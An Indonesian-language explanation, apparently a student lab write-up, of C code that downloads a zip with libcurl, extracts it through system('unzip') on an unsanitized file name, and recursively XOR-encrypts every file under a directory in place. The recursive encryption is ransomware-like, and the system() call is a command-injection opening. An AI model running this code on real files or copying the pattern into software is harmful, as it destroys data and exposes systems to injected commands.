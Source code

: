 - `curl_easy_setopt(curl, CURLOPT_WRITEDATA, fp);` Memberitahu CURL untuk menyimpan data yang didownload langsung ke file fp.
- `snprintf(perintahUnzip, sizeof(perintahUnzip), "unzip -o %s", namaFile); system(perintahUnzip);` Membuat dan menjalankan perintah unzip untuk mengekstrak isi dari file test.zip.



2. Enkripsi Rekursif File dengan XOR
```bash
void encryptfile(const char *lokasiFile, unsigned char kunci) {
    FILE *fp = fopen(lokasiFile, "rb+");
    if (!fp) return;

    fseek(fp, 0, SEEK_END);
    long ukuranFile = ftell(fp);
    rewind(fp);

    unsigned char *buffer = malloc(ukuranFile);
    if (!buffer) {
        fclose(fp);
        return;
    }

    fread(buffer, 1, ukuranFile, fp);
    rewind(fp);

    for (long i = 0; i < ukuranFile; i++) {
        buffer[i] ^= kunci;
    }

    fwrite(buffer, 1, ukuranFile, fp);
    fclose(fp);
    free(buffer);
}

void encrypt(const char *pathDasar, unsigned char kunci) {
    struct dirent *entri;
    DIR *direktori = opendir(pathDasar);
    if (!direktori) return;

    char pathLengkap[1024];

    while ((entri = readdir(direktori)) != NULL) {
        if (strcmp(entri->d_name, ".") == 0 || strcmp(entri->d_name, "..") == 0)
            continue;

        snprintf(pathLengkap, sizeof(pathLengkap), "%s/%s", pathDasar, entri->d_name);

        struct stat infoPath;
        if (stat(pathLengkap, &infoPath) == -1) continue;

        if (S_ISDIR(infoPath.st_mode)) {
            encrypt(pathLengkap, kunci);
        } else if (S_ISREG(infoPath.st_mode)) {
            encryptfile(pathLengkap, kunci);
        }
    }

    closedir(direktori);
}
```
- `FILE *fp = fopen(lokasiFile, "rb+"); if (!fp) return;`  Membuka file dalam mode baca dan tulis biner.